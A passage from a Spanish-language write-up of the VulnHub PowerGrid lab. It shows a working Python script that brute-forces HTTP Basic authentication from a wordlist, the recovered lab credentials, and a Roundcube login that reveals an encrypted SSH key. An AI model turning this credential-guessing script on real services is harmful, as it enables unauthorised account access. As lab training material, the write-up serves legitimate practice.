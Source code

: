 ```python
        r = requests.get(main_url, headers=headers)
        if r.status_code != 401:
            p1.success(f"Contraseña encontrada para {user}: {password}")
    except Exception as e:
        p1.failure(f"Error al hacer la solicitud para {user} - {password}: {e}")

def make_authorization(users, password_file):
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
    
    for user in users:
        p1.status(f"Probando contraseñas para el usuario: {user}")
        
        with open(password_file, "r") as f:
            for password in map(lambda x: x.strip(), f.readlines()):
                cadena = f"{user}:{password}"
                p1.status(f"Probando la contraseña para {user}: {password}")
                
                cadenab64 = b64encode(cadena.encode())
                make_authentication(cadenab64, user, password, p1)

if __name__ == '__main__':
    users = ["deez1", "p48", "all2"]
    password_file = "/ruta/diccionario.txt"
    make_authorization(users, password_file)

```


Vale tenemos credenciales, usuario **p48** y contraseña **electrico** 

> Os dejo las creds por si queréis practicar con el script haciendo un diccionario más pequeño que contenga la pass

Para continuar entramos con el user y la pass, y vemos otro inicio de sesión, probamos las mismas creds y... para dentro.

Una vez dentro podemos ver lo que parece un servicio de email [Qué es roundcube](https://es.wikipedia.org/wiki/Roundcube)
rápidamente nos damos cuenta de que tenemos un mensaje **importante,** procedemos a abrirlo y lo que vemos es lo siguiente. 
[<img src="/assets/images/vulnhub/PowerGrid/captura3.png">](/assets/images/vulnhub/PowerGrid/captura3.png)
En azul vemos pistas que probablemente nos sirvan de algo más adelante, aunque ya se intuye por donde pueden ir los tiros, y en amarillo vemos una clave SSH cifrada, la cual sin la clave privada para descifrarla nos sirve de bien poco...
